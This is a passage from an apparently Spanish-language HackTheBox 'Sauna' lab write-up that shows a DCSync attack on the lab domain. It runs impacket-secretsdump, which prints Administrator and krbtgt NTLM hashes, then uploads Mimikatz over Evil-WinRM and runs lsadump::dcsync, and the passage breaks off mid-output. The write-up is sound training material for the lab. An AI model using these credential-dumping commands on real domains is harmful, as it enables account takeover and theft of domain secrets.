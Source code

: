 Vamos a usar los dos.

<br>

<h3 id="secrets">Aplicando DCSync Attack con secretsdump de Impacket</h3>

Para esto, usaremos el **secretsdump de impacket**.

Solamente, debemos indicarle el dominio junto al **usuario svc_loanmgr** y la IP de la máquina. Cuando ejecutemos la herramienta, nos pedirá la contraseña, por lo que debemos dársela:
```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
...
...
```
Tenemos el **hash NTLM** del administrador.

<br>

<h3 id="Mimikatz">Aplicando DCSync Attack con Mimikatz</h3>

Primero debemos tener el **Mimikatz.exe**. Normalmente, Kali lo tiene en su versión de 32 y 64 bits, tan solo hay que buscarlo:
```bash
locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

Cópialo en tu directorio de trabajo y cárgalo a la sesión de **Evil-WinRM**:
```batch
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents\BrkPrit> upload mimikatz.exe
                                        
Info: Uploading ../content/mimikatz.exe to C:\Users\svc_loanmgr\Documents\BrkPrit\mimikatz.exe
                                        
Data: 1807016 bytes of 1807016 bytes copied
                                        
Info: Upload successful!
```

Usemos el comando que nos menciona **BloodHound**, le agregaremos `exit` al final porque, si no, se seguirá ejecutando el **mimikatz.exe**:
```batch
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents\BrkPrit> .\mimikatz.exe 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator' exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

```